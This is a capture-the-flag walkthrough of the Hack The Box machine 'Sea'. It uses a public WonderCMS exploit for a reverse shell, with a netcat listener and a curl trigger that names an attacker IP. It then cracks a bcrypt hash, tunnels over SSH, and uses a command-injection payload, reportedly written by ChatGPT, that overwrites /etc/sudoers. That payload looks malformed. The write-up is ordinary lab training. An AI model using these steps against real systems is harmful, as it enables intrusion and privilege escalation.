








# Sea

After 30 minutes of fuzzing, I discovered the following endpoints:

> http://sea.htb/themes/bike/LICENSE
>
> [`http://sea.htb/themes/bike/README.md`](http://sea.htb/themes/bike/README.md)

The `README.md` file contained the following information:

```md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find the theme in the list and click "Install".
4. In the "General" tab, select the theme to activate it.
```

### Finding the Exploit

A quick Google search led me to an exploit for WonderCMS: **CVE-2023–41425**.

```
https://github.com/prodigiousMind/CVE-2023-41425
```

### Exploiting



### Start a Netcat listener

```bash
nc -lnvp 6969
```



### Run the exploit

```bash
python3 exploit.py http://sea.htb/themes 10.10.14.16 6969
```



### Trigger the exploit using curl

```bash
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.16&lport=6969'
```



Boom! We have a shell on the machine!





### Privilege Escalation to `amay`

Next, I ran **Linpeas** to look for potential privilege escalation vectors. I found an interesting file:

```bash
/var/www/sea/data/database.js
```

This file contained a password hash:

```json
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
    }
}
```

### Cracking the Password Hash

I copied the hash into a file and identified it as a bcrypt hash. Then, I used **Hashcat** to crack it:

```bash
hashcat -m 3200 -a 0 hash /usr/share/seclists/rockyou.txt
```



The password was successfully cracked using **rockyou.txt**

### Logging in via SSH

I logged in as `amay` using SSH:

```bash
ssh amay@sea.htb
```



## User Flag

```bash
cat user.txt
```

## Privilege Escalation to `root`

Running Linpeas again, I discovered a webserver running on port `8080`.



### Tunneling

To access the webserver, I created an SSH tunnel:

```bash
ssh -L 6969:localhost:8080 amay@sea.htb
```

I then browsed to `http://localhost:6969` and logged in with the `amay` credentials.



The webserver revealed a “System Monitor (Developing)” page where I could access log files. I found the following clue in the `access.log` file:



### Using Burpsuite

This endpoint reads the data in the `auth.log` file and displays it on the webserver:

```bash
log_file=%2Fvar%2Flog%2Fauth.log&analyze_log=
```



I attempted to change the path to `/root/root.txt` but it failed. Then, I used a payload generated by ChatGPT to get the `root.txt` file:

```bash
log_file=/root/root.txt;cp/dev/shm/sudoers> /etc/sudoers&analyze_log
```

And there it was-the root flag!
